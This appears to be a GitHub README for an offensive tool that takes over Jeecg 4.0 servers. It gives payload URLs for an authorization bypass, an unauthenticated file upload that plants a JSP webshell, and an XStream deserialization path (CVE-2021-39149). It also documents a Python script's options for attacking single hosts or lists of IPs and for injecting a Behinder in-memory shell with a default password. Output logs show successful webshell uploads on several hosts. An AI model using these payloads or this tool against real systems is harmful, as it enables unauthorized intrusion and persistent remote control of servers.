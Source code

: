 #  Jeecg4.0 GetShell

## Bypass_authorized 

### payload

```
http://ip:port/api/../xxxxxx
```

### poc

正常请求

![image-20220825124856083](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/1.png)

未授权请求

![image-20220825124932019](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/2.png)

## File_upload

### payload

```
http://ip:port/iconController.do?saveOrUpdateIcon
```

### poc

![image-20220825125237074](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/3.png)

### webshell_url

```
http://ip:port/plug-in/accordion/images/x.xxx
```

## Xstream_deserialize

### payload

```
http://ip:port/cgformSqlController.do?doMigrateIn
```

### xstream_payload

```
http://x-stream.github.io/CVE-2021-39149.html
```

### poc

![image-20220825130714206](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/4.png)

## Jeecg_v4.0_getshell

```
  Title  :  Jeecg4.0 GetShell
  Author  :  R4gd0ll
  Usage  :  python3 jeecg_v4.0_getshell.py -h

  -h --help    打开帮助
  -u --url     对单个ip进行测试
  -f --file    对文件中的所有ip进行测试
  -m --msmurl  注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
```

### help

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -h

    -------------------------------------------------------------------------
    Title   :   Jeecg4.0 GetShell
    Author  :   R4gd0ll
    Usage   :   python3 jeecg_v4.0_getshell.py -h

    -h --help     打开帮助
    -u --url      对单个ip进行测试
    -f --file     对文件中的所有ip进行测试
    -m --msmurl   注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
    -------------------------------------------------------------------------
```

### url

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -u http://127.0.0.1:8080/jeecg

[+] getshell success, webshell地址:http://127.0.0.1:8080/jeecg/plug-in/accordion/images/1.jsp
```

![image-20220825133223937](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/5.png)

### msmurl

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -m http://127.0.0.1:8080/jeecg/

Behinder msmshell success
```

![image-20220825133349259](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/6.png)

### file

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -f 1.txt
[-] getshell fail
[-] getshell fail
[-] 访问出现错误！
[-] 访问出现错误！
[-] getshell fail
[+] getshell success, webshell地址:http://xxxxx/plug-in/accordion/images/1.jsp
[+] getshell success, webshell地址:http://xxxxx//plug-in/accordion/images/1.jsp
```

